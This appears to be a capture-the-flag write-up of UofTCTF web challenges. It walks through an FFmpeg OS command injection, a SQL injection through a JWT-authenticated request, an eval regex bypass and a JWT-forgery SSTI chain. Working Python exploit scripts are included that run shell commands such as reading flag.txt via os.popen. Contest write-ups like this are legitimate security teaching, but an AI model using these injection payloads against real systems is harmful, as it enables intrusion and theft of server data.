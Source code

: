 | Name       | uoftctf                |
|------------|------------------------|
| URL        | [https://play.uoftctf.org/](https://play.uoftctf.org/) |
| Category   | Web                    |
| Discord    | [https://discord.com/invite/VAwyzVUt?utm_source=Discord%20Widget&utm_medium=Connect](https://discord.com/invite/VAwyzVUt?utm_source=Discord%20Widget&utm_medium=Connect) |



# 1. Voice Changer - OS Injection

This website uses FFmpeg to generate an OGG file. In this challenge, an OS injection vulnerability exists in the FFmpeg command.

![OS Injection Image](https://github.com/ACHUX21/Writeups/assets/130113878/322e6697-62b4-4cd8-98a5-86d031085db1)

Let's attempt to induce a delay in the command using `$(sleep 10)`.

![Sleep Command Image](https://github.com/ACHUX21/Writeups/assets/130113878/f7cdcc2c-f1d7-4bb5-aa2c-2ccb9d20d107)

The image reveals a 10-second delay resulting from the execution of the sleep command.

### Exploiting the Vulnerability

To exploit this vulnerability, our approach involves redirecting the flag to our webhook site:

![Webhook Image 1](https://github.com/ACHUX21/Writeups/assets/130113878/cb206e1e-dde5-4c64-8164-0c299ddf5788)

![Webhook Image 2](https://github.com/ACHUX21/Writeups/assets/130113878/4889fc03-f67a-4055-8316-86212077eb6c)

# 2. The Varsity 

### Solution:
To address the issue, generate a valid (JWT) and proceed by sending a POST request to article number 9 with this json {"issue":"9'"}

```python
import requests

url = "https://uoftctf-the-varsity.chals.io:443/register"
json={"username": "achuxer"}
reg = requests.post(url, json=json)

valid_jwt = reg.headers["Set-Cookie"].split("=")[1].split(";")[0]

session = requests.session()

_url = "https://uoftctf-the-varsity.chals.io:443/article"
_cookies = {"token": valid_jwt}
_json={"issue": "9'"}
flag = session.post(_url, cookies=_cookies, json=_json)

print(flag.json()["content"])
```

# No Code - Eval

### Source
```python
from flask import Flask, request, jsonify
import re

app = Flask(__name__)

@app.route('/execute', methods=['POST'])
def execute_code():
    code = request.form.get('code', '')
    if re.match(".*[\x20-\x7E]+.*", code):
        return jsonify({"output": "jk lmao no code"}), 403
    result = ""
    try:
        result = eval(code)
    except Exception as e:
        result = str(e)

    return jsonify({"output": result}), 200

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=1337, debug=False)
```
### Solution

Sending \n in the start of your payload cz re.match() will only match at the beginning of the string and not at the beginning of each line.

```python
#!/usr/bin/env python3
import requests
import string,sys
url = 'https://uoftctf-no-code.chals.io/execute'

payload = "\n__import__('os').popen('cat flag.txt').read()"

data = {
    'code': payload
}
response = requests.post(url, data=data)
print(response.text)
```


# Guestbook - Hidden Flag

By reading the html source you can see POST action directed towards a Google Spreadsheet with the parameter "sheetID"

![image](https://github.com/ACHUX21/Writeups/assets/130113878/e5c48610-12d1-4f6f-9dbc-66d4a693d78a)

After googling around,with this id you can obtain spreadsheet docs.

https://docs.google.com/spreadsheets/d/1PGFh37vMWFrdOnIoItnxiGAkIqSxlJDiDyklp9OVtoQ/edit

Following this step, you can notice two hidden rows. Once I copied the doc, I had access to the flag

#  My First App - JWT / SSTI

Solution :
  Initially, you must crack a JWT to reveal the jwt_key. Furthermore, there's an SSTI in the username field from the JWT-cookie, but with certain blacklisted characters/words.
  
  ![image](https://github.com/ACHUX21/Writeups/assets/130113878/ebca8511-d882-427b-aba0-65607fcbb5cd)

  
  PY:

  ```python
  #!/usr/bin/env python3
import jwt
import requests
from bs4 import BeautifulSoup

secret_key = 'torontobluejays'
username = """
{{lipsum|attr(request.referrer.split().pop(0))|attr(request.referrer.split().pop(1))(request.referrer.split().pop(2))|attr(request.referrer.split().pop(3))(request.referrer.split().pop(4))|attr(request.referrer.split().pop(5))()}}
"""
pay = """__globals__ __getitem__ os popen cat${IFS}flag.txt read """


def genJWT(username):
    payload = {
        "username": username,
}
    token = jwt.encode(payload, secret_key, algorithm='HS256')
    return token


jwt_token = genJWT(username)
print(jwt_token)

url = "https://uoftctf-my-first-app.chals.io:443/?test="
cookies = {"auth_token": jwt_token}

headers = {"referer": pay}
response = requests.get(url,headers=headers, cookies=cookies)
#response = requests.get(url,headers=headers, cookies=cookies, proxies=proxies)
cont = response.text


s = BeautifulSoup(cont, 'html.parser')
cov = s.find('div', class_='container')

if cov:
    print(cov.prettify())
else:
    print(cont)
```
